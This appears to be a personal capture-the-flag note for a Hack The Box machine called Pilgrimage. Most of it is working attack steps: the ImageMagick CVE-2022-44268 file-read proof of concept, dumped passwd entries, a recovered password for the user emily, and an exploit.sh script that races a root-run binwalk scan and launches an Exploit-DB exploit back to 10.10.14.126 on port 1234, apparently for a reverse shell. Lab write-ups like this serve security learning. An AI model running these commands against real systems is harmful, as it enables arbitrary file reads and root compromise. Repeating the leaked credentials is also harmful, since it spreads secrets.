 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash



## User

https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

### Usage:

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#installing-dependencies)Installing dependencies:

`1. $ apt-get install pngcrush imagemagick exiftool exiv2 -y`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#change-the-filename-you-want-to-read-below)Change the filename you want to read below:

`2. $ pngcrush -text a "profile" "/etc/hosts" vjp.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#confirm-everything-worked-perfectly)Confirm everything worked perfectly

`3. $ exiv2 -pS pngout.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#trigger-the-poc-via-convert-or-upload-image-to-the-vulnerable-service)Trigger the PoC via convert or upload image to the vulnerable service:

`4. $ convert pngout.png gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#view-content-of-file-was-read)View content of file was read:

`5. $ identify -verbose gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#decrypt-the-content)Decrypt the content:

`6. $ python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a").decode("utf-8"))'`


 $db = new PDO('sqlite:/var/db/pilgrimage');

testpassword

abigchonkyboi123

emily:abigchonkyboi123


2023/06/27 06:56:55 CMD: UID=0    PID=721    | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/27 06:56:55 CMD: UID=0    PID=720    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 

#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done





### PWN SCRIPTS


###  exploit.sh

#!/bin/bash                                                                                                         

while true; do                                                                                                      
file=$(ls /var/www/pilgrimage.htb/tmp/)                                                                             

        if [ -z "$file" ]; then                                                                                     
                echo "Nada..."                                                                                      

        else                                                                                                        
                break                                                                                               
        fi                                                                                    

done                                                                                                                

ruta="/var/www/pilgrimage.htb/tmp/$file"                                                                            
echo -e "\n Se encontró un archivo! $ruta\n"                                                                        

cp $ruta .                                                                                                          

echo "[*] Se va a ejecutar el script de python"                                                                     

python3 exploit.py /dev/shm/$file 10.10.14.126 1234

## exploit.py
https://www.exploit-db.com/exploits/51249


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
